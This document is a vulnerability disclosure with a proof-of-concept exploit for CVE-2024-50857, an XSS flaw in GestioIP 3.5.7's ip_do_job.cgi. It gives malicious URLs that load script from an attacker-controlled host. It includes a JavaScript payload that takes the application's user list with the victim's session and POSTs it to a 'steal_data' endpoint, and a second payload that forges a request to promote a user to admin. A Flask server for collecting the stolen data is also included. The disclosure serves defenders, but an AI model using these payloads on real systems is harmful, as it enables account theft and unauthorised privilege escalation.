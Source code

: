 ```yaml
---
title: "CVE-2024-50857. GestioIP Vulnerability: XSS"
description: Cross-Site Scripting detected
date: 2025-01-13T12:28:27-03:00
author: Maximiliano Belino
lang: en
tags:
  - vulnerability
  - CVE
  - XSS
---
```

# CVE-2024-50857

- [Information](#information)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Prerequisites](#prerequisites)
	- [Case 1: Data exfiltration](#case-1-data-exfiltration)
		- [Usage/Exploitation](#usageexploitation)
	- [Case 2: XSS and CSRF chained](#case-2-xss-and-csrf-chained)
		- [Usage/Exploitation](#usageexploitation)
	- [OBS](#obs)
	- [Payloads](#payloads)
	- [Flask server](#flask-server)


## Information

**Description:** The `"ip_do_job"` request is vulnerable to XSS (Cross-Site Scripting), allowing data exfiltration and enabling CSRF (Cross-Site Request Forgery) attacks.<br>

**Versions Affected:** 3.5.7 <br>

## Proof-of-Concept Exploit

### Description

The `"ip_do_job"` feature of GestioIP 3.5.7 is vulnerable to XSS, leading to data exfiltration and CSRF attacks. Two examples (Case 1 and Case 2) are described below.

### Prerequisites

To successfully exploit the XSS vulnerability, the user must be part of a "User Group" that has the following three permissions:

• Show backuped device configurations (read_device_config_perm)

• Upload device configurations (write_device_config_perm)

• Administrate CM (administrative_cm_perm)

These permissions can be assigned to any group via:
Manage > User Groups > Configuration Management

![](CVE-2024-50857-1.png)
Then select these 3 checkboxes:
![](CVE-2024-50857.png)


The following groups have these permissions enabled by default for "Configuration Management":

◇ Admin

◇ GestioIP Admin


Note:

By default, the *gipadmin* user belongs to the "GestioIP Admin" group.


### Case 1: Data exfiltration

For example, an attacker can use this vulnerability to retrieve the list of users from the GestioIP application. If an administrator visits a malicious URL while authenticated to the application, the XSS payload will be triggered, causing the admin's browser to perform a GET request to the user list of the GestioIP application. Afterward, the browser will send a POST request to the attacker's server, exfiltrating the obtained user information.


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload4.js``` on an attacker-controlled web server (eg. `python3 -m http.server 8090`) and also a python-flask server to receive the exfiltrated data.

To construct this URL the attacker uses these two parameters:

- `client_id=1`
- `stored_config='<script src="http://10.20.0.1:8090/payload4.js"></script>'`

Then, the malicious url is:

http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config=%27%3Cscript%20src=%22http://10.20.0.1:8090/payload4.js%22%3E%3C/script%3E%27


When an authenticated administrator clicks the malicious URL, the XSS is triggered, causing the admin's browser to collect the data and send it to the attacker's server (data exfiltration).




### Case 2: XSS and CSRF chained

The attacker has obtained a list of users using Case 1. Now the attacker assigns a user he choose the **admin** role.


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload5.js``` on an attacker-controlled web server (eg. `python3 -m http.server 8090`).

To construct this URL the attacker uses these two parameters:

- `client_id=1`
- `stored_config='<script src="http://10.20.0.1:8090/payload5.js"></script>'`

Then, the malicious url is:


http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config=%27%3Cscript%20src=%22http://10.20.0.1:8090/payload5.js%22%3E%3C/script%3E%27



When an authenticated administrator clicks the malicious URL, the XSS is triggered, causing the admin's browser to make a request to the "ip_mod_user" feature in the application changing the "*group_id*" value (elevating privileges) to a target user.




### OBS

`host_id` is also a vulnerable parameter

http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&host_id='<script>alert("test")</script>'

Using parameter: `stored_config`
http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config='<script>alert("test")</script>'

### Payloads

`payload4.js`

``` javascript
fetch('http://localhost/gestioip/res/ip_show_user.cgi?client_id=1', {
  method: 'GET',
  credentials: 'include'
})
  .then(response => response.text())
  .then(data => {
    fetch('http://localhost:8000/steal_data', {
      method: 'POST',
      body: JSON.stringify({
        pageContent: data,
        location: window.location.href,
        userAgent: navigator.userAgent
      }),
      headers: {
        'Content-Type': 'application/json'
      }
    });
  })
  .catch(err => console.error('Error', err));
  ```


`payload5.js`

```javascript
const data = new URLSearchParams();
data.append('name', 'maxi');
data.append('group_id', '3');
data.append('email', 'maxi@test.com');
data.append('phone', '123');
data.append('comment', '');
data.append('client_id', '1');
data.append('id', '2');
data.append('B2', '');

fetch('http://localhost/gestioip/res/ip_mod_user.cgi', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: data
})
.then(response => {
    if (!response.ok) {
        throw new Error('Network response was not ok ' + response.statusText);
    }
    return response.text();
})
.then(responseData => {
    console.log('Success:', responseData);
})
.catch(error => {
    console.error('Error:', error);
});
```

### Flask server

`server_flask.py`

```python
from flask import Flask, request
from flask_cors import CORS
import json

app = Flask(__name__)
CORS(app)  # enables CORS for all routes

@app.route('/steal_data', methods=['POST'])
def steal_data():
    data = request.json  # data received format: JSON
    with open('data_exfiltrated.html', 'a') as f:  # open the file in append mode
        f.write(json.dumps(data) + '\n')  # write data to file
    return 'Data received and saved', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

